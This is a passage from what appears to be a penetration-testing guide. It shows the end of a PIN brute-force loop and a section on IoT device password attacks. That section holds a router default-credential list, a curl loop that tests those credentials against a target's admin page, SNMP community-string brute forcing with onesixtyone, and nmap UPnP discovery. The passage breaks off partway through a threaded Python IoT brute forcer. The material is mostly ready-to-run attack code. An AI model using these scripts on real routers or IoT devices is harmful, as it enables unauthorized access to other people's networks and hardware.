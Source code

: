 ```bash
    "7777", "1004", "2000", "4444", "2222",
    "6969", "9999", "3333", "5555", "6666",
    "1313", "8888", "4321", "2001", "1010"
]

for pin in common_pins:
    print(f"Trying PIN: {pin}")
    try_pin(pin)
    time.sleep(1)
EOF
```

### 11.3 IoT Device Password Attacks

```bash
# Router default credential testing
cat > router_defaults.txt << 'EOF'
admin:admin
admin:password
admin:
root:admin
admin:1234
admin:pass
user:user
guest:guest
admin:router
admin:admin123
EOF

# Test default credentials
while IFS=':' read -r username password; do
    curl -u "$username:$password" -s "http://target_ip/admin" && echo "Success: $username:$password"
done < router_defaults.txt

# SNMP community string brute force
onesixtyone -c common_communities.txt target_ip

# UPnP device discovery and testing
nmap -sU -p 1900 --script=upnp-info target_range

# Custom IoT brute forcer
cat > iot_bruteforce.py << 'EOF'
#!/usr/bin/env python3
import requests
import threading
from queue import Queue
import time

class IoTBruteForcer:
    def __init__(self, target, service_type, credentials, threads=5):
        self.target = target
        self.service_type = service_type
        self.credentials = credentials
        self.threads = threads
        self.queue = Queue()
        self.found_credentials = []
        
        # Populate queue
        for username, password in credentials:
            self.queue.put((username, password))
    
    def test_http_auth(self, username, password):
```